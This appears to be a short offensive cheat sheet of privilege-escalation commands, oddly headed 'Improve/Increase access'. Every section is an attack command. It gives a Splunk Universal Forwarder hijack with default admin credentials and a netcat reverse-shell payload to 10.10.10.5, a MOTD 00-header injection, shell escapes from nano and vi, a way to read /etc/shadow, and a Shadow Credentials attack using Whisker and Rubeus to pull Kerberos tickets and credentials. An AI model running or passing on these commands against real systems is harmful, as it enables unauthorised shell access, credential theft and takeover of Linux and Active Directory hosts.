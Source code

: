 ### Improve access with Splunk Universal Forward Hijacking

```text
python PySplunkWhisperer2_remote.py --lhost 10.10.10.5 --host 10.10.15.20 --username admin --password admin --payload '/bin/bash -c "rm /tmp/luci11;mkfifo /tmp/luci11;cat /tmp /luci11|/bin/sh -i 2>&1|nc 10.10.10.5 5555 >/tmp/luci11"'

```

### Increase access with 00-header file

```text
echo "id" >> 00-header
```

### Increase accessibility in nano

```text
Ctrl+R + Ctrl+X
reset; sh 1>&0 2>&0
```

Or

```text
Ctrl+W
/etc/shadow
```

### Increase access in vi

```text
:!/bin/sh
```


### Increase access by ShadowCredentials method

```text
whisker.exe add /target:user
.\Rubeus.exe askgt /user:user /certificate:<base64-cert> /password:"password" /domain:domain /dc:DC.domain.dev /getcredentials /show
```


